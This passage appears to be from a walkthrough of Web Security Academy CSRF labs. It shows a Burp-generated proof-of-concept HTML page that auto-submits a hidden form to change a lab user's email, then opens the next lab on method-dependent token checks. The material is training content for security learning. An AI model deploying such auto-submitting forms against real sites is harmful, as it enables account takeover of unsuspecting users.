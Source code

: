 ![img](images/CSRF%20vulnerability%20with%20no%20defenses/2.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5004c04ed095e819302fc004d00f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# 02 CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
